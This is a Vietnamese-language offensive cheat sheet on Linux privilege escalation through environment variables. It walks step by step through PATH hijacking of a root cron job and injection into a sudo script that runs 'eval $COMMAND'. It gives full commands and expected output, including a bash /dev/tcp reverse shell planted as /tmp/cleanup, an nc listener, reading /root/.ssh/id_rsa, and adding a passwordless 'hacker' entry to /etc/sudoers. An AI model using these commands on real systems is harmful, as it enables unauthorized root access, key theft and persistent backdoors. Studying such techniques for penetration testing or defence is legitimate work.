 # Environment Variable Exploits

## Điểm chính khai thác

* Thao túng biến **PATH** để ưu tiên thực thi tệp nhị phân độc hại từ thư mục do người dùng kiểm soát (như `/tmp`) khi tiến trình đặc quyền gọi lệnh mà không dùng đường dẫn tuyệt đối
* Tiêm biến môi trường chứa lệnh độc hại để khai thác tập lệnh đặc quyền (chạy qua `sudo`) xử lý biến không an toàn (ví dụ: `eval $COMMAND`)
* Phát hiện tiến trình hoặc cron job gọi tệp nhị phân không có đường dẫn tuyệt đối bằng **pspy** hoặc kiểm tra `/etc/crontab`; xác minh tập lệnh đặc quyền bằng `sudo -l`
* Yêu cầu thư mục có thể ghi (tìm bằng `find / -writable -type d`) để lưu tệp nhị phân độc hại và quyền chạy tập lệnh đặc quyền qua `sudo`
* Hiệu quả trong môi trường Linux nơi cron job hoặc tập lệnh đặc quyền xử lý lệnh hoặc biến môi trường một cách không an toàn

## Các bước khai thác

### Kiểm tra lỗ hổng

#### Xác định mục tiêu tiềm năng

Tìm thư mục có thể ghi để lưu tệp nhị phân độc hại:

```
find / -writable -type d 2>/dev/null
```

Output mong đợi: Danh sách thư mục, ví dụ: `/tmp`

Kiểm tra cron job hoặc tiến trình root gọi tệp nhị phân không có đường dẫn tuyệt đối:

```
pspy
```

Output mong đợi: Tiến trình root, ví dụ: `UID=0 PID=1234 | cleanup`

Kiểm tra cấu hình cron job:

```
cat /etc/crontab
```

Output mong đợi: Lệnh cron, ví dụ: `* * * * * root cleanup`

Kiểm tra tập lệnh đặc quyền có thể chạy qua `sudo`:

```
sudo -l
```

Output mong đợi: Tập lệnh, ví dụ: `(root) NOPASSWD: /scripts/file.sh`

Kiểm tra tập lệnh đặc quyền để tìm xử lý biến môi trường không an toàn:

```
cat /scripts/file.sh
```

Output mong đợi: Lệnh nguy hiểm, ví dụ: `eval $COMMAND`

#### Kiểm tra quyền truy cập hoặc cấu hình

Kiểm tra quyền ghi trên thư mục mục tiêu (ví dụ: /tmp):

```
ls -ld /tmp
```

Output mong đợi: Quyền thư mục, ví dụ: `drwxrwxrwt 10 root root 4096`

#### Phân tích ngữ cảnh thực thi

Xác minh hành vi tiến trình root gọi tệp nhị phân:

```
pspy
```

Output mong đợi: Tiến trình gọi lệnh, ví dụ: `UID=0 PID=1234 | cleanup`

### Thực thi khai thác

#### Chuẩn bị payload hoặc mã khai thác

Tạo tệp nhị phân độc hại cho thao túng PATH:

```
echo '#!/bin/bash' > /tmp/cleanup
echo 'bash -i >& /dev/tcp/192.168.1.100/4444 0>&1' >> /tmp/cleanup
```

Ghi chú: Thay `192.168.1.100` và `4444` bằng IP và cổng attacker. Tệp giả mạo lệnh `cleanup`.

Cấp quyền thực thi cho tệp nhị phân:

```
chmod +x /tmp/cleanup
```

Output mong đợi: Tệp có thể thực thi, ví dụ: `-rwxr-xr-x 1 user user`

Sửa đổi biến PATH để ưu tiên thư mục có thể ghi:

```
export PATH=/tmp:$PATH
```

Output mong đợi: PATH cập nhật, ví dụ: `/tmp:/usr/bin:/bin`

Thiết lập biến môi trường độc hại cho tập lệnh đặc quyền:

```
export COMMAND="/bin/bash"
```

Ghi chú: Điều chỉnh lệnh dựa trên mục tiêu, ví dụ: `/bin/bash` cho shell hoặc `cat /root/.ssh/id_rsa` để trích xuất dữ liệu.

#### Áp dụng khai thác

Chạy tập lệnh đặc quyền để kích hoạt biến môi trường độc hại:

```
sudo /scripts/file.sh
```

Ghi chú: Đảm bảo `/scripts/file.sh` được phép chạy qua `sudo -l`. Output mong đợi: Shell root.

Chờ cron job chạy tệp nhị phân độc hại:

```
sleep 60
```

Ghi chú: Điều chỉnh thời gian dựa trên lịch cron (kiểm tra `/etc/crontab` hoặc **pspy**).

Bắt shell ngược:

```
nc -lvnp 4444
```

Output mong đợi: Kết nối từ mục tiêu, ví dụ: `Connection from 192.168.1.101:45678`

#### Kích hoạt khai thác

Kiểm tra quyền root sau khai thác:

```
id
```

Output mong đợi: Quyền root, ví dụ: `uid=0(root) gid=0(root)`

### Kiểm tra kết quả

Xác nhận quyền root:

```
whoami
```

Output mong đợi: `root`\
Xác nhận: Thử lệnh yêu cầu quyền cao, ví dụ: `echo 'hacker ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers`.

## Ví dụ khai thác

### Thao túng PATH với Cron Job

**Kịch bản mẫu**: Cron job root chạy `cleanup` (không phải `/usr/bin/cleanup`) mỗi phút, thư mục `/tmp` có thể ghi. Tạo `/tmp/cleanup` để mở shell ngược.\
**Output**:

```
pspy
2025/05/16 14:00:01 CMD: UID=0 PID=1234 | cleanup

cat /etc/crontab
* * * * * root cleanup

ls -ld /tmp
drwxrwxrwt 10 root root 4096

echo '#!/bin/bash' > /tmp/cleanup
echo 'bash -i >& /dev/tcp/192.168.1.100/4444 0>&1' >> /tmp/cleanup
chmod +x /tmp/cleanup
export PATH=/tmp:$PATH

nc -lvnp 4444
Connection from 192.168.1.101:45678
whoami
root
```

### Tiêm Biến Môi trường với Sudo Script

**Kịch bản mẫu**: Tập lệnh `/scripts/file.sh` chạy qua `sudo` chứa `eval $COMMAND`, cho phép bởi `sudo -l`. Tiêm lệnh để nhận shell root.\
**Output**:

```
sudo -l
(root) NOPASSWD: /scripts/file.sh

cat /scripts/file.sh
eval $COMMAND

ls -ld /tmp
drwxrwxrwt 10 root root 4096

export COMMAND="/bin/bash"
sudo /scripts/file.sh

id
uid=0(root) gid=0(root)
whoami
root
```
